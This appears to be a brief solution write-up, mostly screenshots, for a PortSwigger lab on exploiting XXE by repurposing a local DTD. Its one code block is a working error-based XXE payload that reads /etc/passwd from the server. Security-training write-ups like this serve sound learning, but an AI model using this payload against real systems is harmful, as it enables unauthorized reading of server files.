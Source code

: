 ## Lab Description: Exploiting XXE to retrieve data by repurposing a local DTD

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f0ebc6b0-3e71-46e7-99cb-317d55cb3905)

## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ebd5a051-7380-4c59-82a4-990f97400a5c)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4e63a045-e878-4951-b8d6-cea551c9a61d)

We have to add in our exixting xml request

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/17d435dd-432f-4a0f-9ac0-2e73680dd668)

Send the request 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/0cca88e0-dee5-483c-b22e-adae8cacbeb2)

Lab we solved

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/46ef95c6-5ba7-40aa-ab1d-229051efcfdd)

